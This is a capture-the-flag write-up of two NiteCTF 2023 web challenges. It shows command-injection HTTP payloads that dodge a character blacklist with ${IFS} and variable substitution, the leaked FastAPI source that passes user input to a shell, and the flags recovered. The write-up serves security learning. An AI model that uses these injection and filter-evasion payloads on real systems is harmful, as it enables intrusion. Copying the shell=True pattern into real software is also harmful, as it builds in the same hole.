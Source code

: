 ```yaml
---
toc: true
title: "NiteCTF 2023"
description: NiteCTF
date: 2023-12-18
author: Duc Anh Nguyen
---
```


## Web
<div style="border-bottom: 3px solid grey;"></div>

### **[caas_renewed](http://caas.web.nitectf.live)**
There is a cowsay service running, it takes user input from the `GET URL: /cowsay/{input}`. Cleary there is a command injection vulnerability. But there are some filters and also restrictions for the input, I was able to extract the source code of the server using the following payload:

```http
GET /cowsay/a;cd${IFS}-;cat${IFS}ma* HTTP/1.1
Host: caas.web.nitectf.live
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 2
```

<details>
<summary><b>SourceLeak.py</b></summary>

```python
from fastapi import FastAPI
from fastapi.staticfiles import StaticFiles
from fastapi.responses import PlainTextResponse
import subprocess
import time
import os
from uvicorn.workers import UvicornWorker


# remove server header
# gunicorn  -k main.ServerlessUvicornWorker main:app -b "0.0.0.0:1337" --access-logfile '-'
class ServerlessUvicornWorker(UvicornWorker):
    def __init__(self, *args, **kwargs):
        self.CONFIG_KWARGS["server_header"] = False
        super().__init__(*args, **kwargs)


TIMEOUT = 5
SLEEP_TIME = 0.1
DEBUG = False

BLACKLIST = [x[:-1] for x in open("./blacklist.txt").readlines()][:-1]

BLACKLIST.append("/")
BLACKLIST.append("\\")
BLACKLIST.append(" ")
BLACKLIST.append("\t")
BLACKLIST.append("\n")
BLACKLIST.append("tc")

ALLOW = [
    "{",
    "}",
    "[",
    "pwd",
    "-",
    "if",
    "tac",
    "ac",
    "cd",
    "tree",
    "ls",
    "echo",
    "tee",
    "touch",
    "mkdir",
    "dir",
    "mv",
    "chmod",
    "ping",
]

for a in ALLOW:
    try:
        BLACKLIST.remove(a)
    except ValueError:
        pass


def isClean(input):
    input = input.lower().strip()
    if any(x in input for x in BLACKLIST):
        if DEBUG:
            for i in BLACKLIST:
                if i in input:
                    print("Banned reason:", i)
                    break
        return False
    return True


def timeout(proc):
    count = 0
    while proc.poll() == None:
        time.sleep(SLEEP_TIME)
        count += SLEEP_TIME
        if count > TIMEOUT:
            proc.terminate()


app = FastAPI()
api = FastAPI()

pwd = os.path.dirname(os.path.realpath(__file__))

app.mount("/cowsay", api)
#app.mount("/", StaticFiles(directory="{}/static".format(pwd), html=True))

#os.chdir("/usr/games")


@api.get("/{user_input}")
def response(user_input):
    if not isClean(user_input):
        cmd = "cowsay {}".format("'Whoops! I cannot say that'")

        p = subprocess.Popen(
            cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE
        )
        output = p.communicate()[0]

        return PlainTextResponse(output)
    else:
        cmd = "cowsay {}".format(user_input)

        p = subprocess.Popen(
            cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE
        )

        timeout(p)

        if DEBUG:
            try:
                output = "\n".join(x.decode() for x in p.communicate())
            except (UnicodeDecodeError, AttributeError):
                try:
                    output = p.communicate()[1].decode()
                except:
                    output = p.communicate()[1]

        else:
            output = p.communicate()[0].decode()

        if DEBUG:
            print("OUTPUT:", output)

        if len(output):
            return PlainTextResponse(output)

        else:
            if "denied" in output:
                cmd = "cowsay {}{}".format('"permission denied"', user_input)
            else:
                cmd = "cowsay {}{}".format(
                    '"Oops! Something went wrong. You said "', user_input
                )

            p = subprocess.Popen(
                cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE
            )

            output = p.communicate()[0]

        return PlainTextResponse(output)
```
</details>

Knowing the logic behind blacklisting characters now, it is easy to spin up a payload to print out the flag

- `pwd|c'u't${IFS}-c1`: Get the first character of the command pwd, which is pwd
- ban=\`echo${IFS}t\`: Set the variable ban to t (which is one of the blacklisted characters)
- `cat${IFS}${slash}e${ban}c${slash}cowsay${slash}f*`: Print the flag.

```http
GET /cowsay/a;slash=`pwd|c'u't${IFS}-c1`;ban=`echo${IFS}t`;cat${IFS}${slash}e${ban}c${slash}cowsay${slash}f* HTTP/1.1
Host: caas.web.nitectf.live
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 2
```


```http
Flag:

HTTP/1.1 200 OK
date: Mon, 18 Dec 2023 10:04:21 GMT
content-length: 180
content-type: text/plain; charset=utf-8
Connection: close

 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
nite{9wd_t0_th3_r35cu3_dp54kf_ud9j3od3w}
```


### [Eraas](!http://eraas.web.nitectf.live/)
Command injection in user input:

```http
POST / HTTP/1.1
Host: eraas.web.nitectf.live
Content-Length: 34
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eraas.web.nitectf.live
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://eraas.web.nitectf.live/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

user_input=1745291415|cat flag.txt
```

**Flag:**
`nite{b3tt3r_n0_c5p_th7n_b7d_c5p_r16ht_fh8w4d}`

